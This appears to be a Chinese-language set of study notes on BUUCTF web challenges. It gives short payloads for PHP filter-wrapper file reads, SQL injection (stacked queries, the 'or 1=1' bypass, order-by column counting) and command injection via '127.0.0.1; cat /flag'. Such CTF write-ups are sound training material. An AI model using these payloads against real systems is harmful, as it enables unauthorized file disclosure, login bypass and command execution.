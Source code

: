 # CTF Web刷题

## buuctf

### ACTF2020新生赛 include
- 知识点：php伪协议，通过php://filter过滤数据流，并用base64编码获得文件然后解码
- payload
```
/?file=php://filter/read=convert.base64-encode/resource=flag.php
 ```

### SUCTF2019 EasySQL

- 知识点：SQL注入
- 尝试
```
1. 查库
输入 1; show database;
2. 查表
输入 1; show tables;
```
- payload
```
*, 1
```

### 极客大挑战2019 LoveSQL

- 知识点：SQL注入
- 尝试
```
万能密码：
1' or 1=1
```

### ACTF2020新生赛 exec
- 知识点：linux命令堆叠；管道操作符
- 尝试：首先输入一个IP地址观察回显，尝试通过命令操作符拼接
```
通过find命令查找flag文件
payload:127.0.0.1; cat /flag
```

### buu basic  sql course 1
- 知识点：数字型SQL注入
- 尝试：首先需要查找到注入点，通过F12工具并点击不同页面观察网络标签下，可以看到原始url地址，重点是查找=符号，然后观察是数字型注入还是字符型注入
```
id=1 or 1=1 --
```
确定是数字型过滤后，查找表的列数
```
id=1 order by 2;有回显

id=1 order by 3;无回显
```
通过逐次递增列数观察表总共有几列，如果没有回显，则列数确定，接下来观察回显位置

